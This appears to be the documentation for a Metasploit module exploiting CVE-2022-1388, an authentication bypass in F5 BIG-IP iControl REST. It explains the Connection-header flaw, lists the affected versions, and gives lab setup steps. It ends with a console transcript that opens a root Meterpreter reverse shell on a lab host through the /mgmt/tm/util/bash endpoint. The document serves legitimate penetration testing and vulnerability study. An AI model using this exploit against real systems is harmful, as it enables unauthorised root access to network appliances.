 ## Vulnerable Application

### Description
This module exploits an authentication bypass vulnerability (CVE-2022-1388)
in the F5 BIG-IP iControl REST service to gain access to the `admin` account,
which is capable of executing commands through the `/mgmt/tm/util/bash`
endpoint. Successful exploitation results in remote code execution as
the `root` user.

The F5 BIG-IP management interface is made up of two different web servers:
a reverse proxy that validates HTTP Basic authorization using `mod_auth_pam.so`,
and a back end that validates the `X-F5-Auth-Token` header using
`AuthTokenWorker.java`. If the reverse proxy sees an `X-F5-Auth-Token` header,
it sends the full request to the back end for validation; if the back end
sees a request *without* an `X-F5-Auth-Token` header, it assumes it has
already been validated by the reverse proxy and uses the username from
the `Authorization` header without validating the password a second time.

The issue fixed in CVE-2022-1388 is that the `Connection` header,
processed by the reverse proxy, can *remove* the `X-F5-Auth-Token` header
after the reverse proxy sees the request, but before it's forwarded to
the back end. That means that the reverse proxy will think the back end
is handling the authorization (since it saw the appropriate header), but
the back end thinks the reverse proxy handled it (because the header gets
removed) and permits the request. This is contrary to the expected
operation and means that whatever username was passed in the `Authorization`
field will be trusted as if the front end had validated it. This will
result in the attacker bypassing authorization checks and gaining
access to `admin`.

The iControl REST service has several ways to execute shell commands
as an administrative user, but `mgmt/tm/util/bash` is purpose-built
to execute `bash` commands which makes it a perfect target.

CVE-2022-1388 affects the following F5 BIG-IP versions:

* 16.1.x versions prior to 16.1.2.2
* 15.1.x versions prior to 15.1.5.1
* 14.1.x versions prior to 14.1.4.6
* 13.1.x versions prior to 13.1.5
* all 12.1.x and 11.6.x

Tested against BIG-IP 12.1.5.3, 13.1.3.6, 13.1.4.1, and 16.1.2.1.

### Setup

Import a vulnerable BIG-IP or BIG-IQ OVA, such as
`BIGIP-16.0.1-0.0.3.ALL-vmware.ova` from https://ipxpy.net/f5/f5-1-course-introduction/,
into your desired hypervisor. Boot the virtual appliance, and
it should be exploitable out of the box once it's up.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### USERNAME

Set this to a valid admin username. Defaults to `admin`.

### TARGETURI

Set this to base path to the iControl installation. Defaults to `/`.

## Scenarios

### BIG-IP 16.1.2.1

```
msf6 > use exploits/linux/http/f5_icontrol_rce
[*] Using configured payload cmd/unix/reverse_python_ssl
msf6 exploit(linux/http/f5_icontrol_rce) > set PAYLOAD payload/cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rce) > set RHOSTS 10.0.0.133
RHOSTS => 10.0.0.133
msf6 exploit(linux/http/f5_icontrol_rce) > set LHOST 10.0.0.123
LHOST => 10.0.0.123
msf6 exploit(linux/http/f5_icontrol_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/f5_icontrol_rce) > show options

Module options (exploit/linux/http/f5_icontrol_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword                   yes       iControl password
   HttpUsername  admin            yes       iControl username
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        10.0.0.133       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the iControl installation
   VHOST                          no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.123       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/f5_icontrol_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.123:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking 10.0.0.133:443
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (40132 bytes) to 10.0.0.133
[*] Meterpreter session 1 opened (10.0.0.123:4444 -> 10.0.0.133:50372) at 2022-05-11 10:59:32 -0700
[!] Command execution timed out

meterpreter > getuid
Server username: root
```
